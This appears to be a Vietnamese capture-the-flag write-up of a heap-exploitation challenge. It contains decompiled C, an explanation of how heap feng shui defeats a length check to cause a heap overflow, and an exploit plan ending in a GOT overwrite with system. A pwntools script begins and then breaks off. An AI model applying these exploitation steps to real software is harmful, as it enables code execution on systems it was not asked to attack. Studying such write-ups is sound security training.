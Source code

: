 ```c
unsigned int __cdecl DisplayAUser(unsigned __int8 number)
{
  unsigned int v2; // [esp+1Ch] [ebp-Ch]
 
  v2 = __readgsdword(0x14u);
  if ( number < gCnt && gUserList[number] )
  {
    printf("name: %s\n", gUserList[number]->name);
    printf("description: %s\n", gUserList[number]->desc);
  }
  return __readgsdword(0x14u) ^ v2;
}
```
>**UpdateAUserDescription()**
-	thực hiện if() nếu giá trị cnt truyền từ main() nhỏ hơn giá trị của gCnt và kiểm tra xem giá trị của gUserList[number] có khác 0.
-	input length chuỗi cần update
-	hàm if() kế tiếp thực chất để kiểm tra xem giá trị input length ở trên có xâm phạm vào userInfo hay không. **đây chính là nơi mà vuln xuất hiện**, bởi vì chúng ta không có chắc chắn rằng userInfo sẽ bị allocate phía sau desc

### Analyze vulnerabilities
>**Heap layout**

-	thông thường, khi allocate user, Description và userInfo sẽ được allocate tuần tự như hình dưới.
-	Tuy nhiên, khi user đầu tiên bị xóa, thì vùng nhớ heap được allocate sẽ bị giải phóng, lúc này fastbin[0] và unsortedbin(136) được đưa vào
-	và khi ta allocate 1 user mới, thì khu vực unsortedbin(136) đó sẽ được assigned vào `desc`
-	thông tin của các user khác thì nằm giữa desc và name
-	điều này khiến ta có thể exploit được heap, cái mà heap feng shui đại diện cho.
	-	bạn có thể bypass được các điều kiện bên dưới cho dù bạn input giá trị lớn hơn `desc` khi tạo giá trị của `textLength`
		-	`&gUserList[cnt]->desc[textLength] >= &gUserList[cnt] - 4` 
	-	và khi bạn bypass được điều kiện trên, thì heap overflow.
-	**không phải tất cả dạng heap feng shui đều thể hiện như thế này**
	-	ví dụ ở đây chỉ phù hợp trong ngữ cảnh này
	-	heap layout hay còn được gọi là heap feng shui, nó có thể ảnh hưởng đến exploit của chúng ta

![](https://i.imgur.com/srYgI1u.png)

**cấu trúc để exploit**

1.	Heap feng shui
2.	Heap overflow
	-	overwrite \*desc
3.	leak libc
4.	overwrite GOT
	-	system

**source py:**
```python
from pwn import *
 
#context.log_level = 'debug'
 
def addUser(desc, name, text):
    p.recvuntil('Action: ')
    p.sendline('0')
    p.recvuntil('size of description: ')
    p.sendline(str(desc))
    p.recvuntil('name: ')
    p.sendline(name)
    p.recvuntil('text length: ')
    p.sendline(str(len(text)))
    p.recvuntil('text: ')
```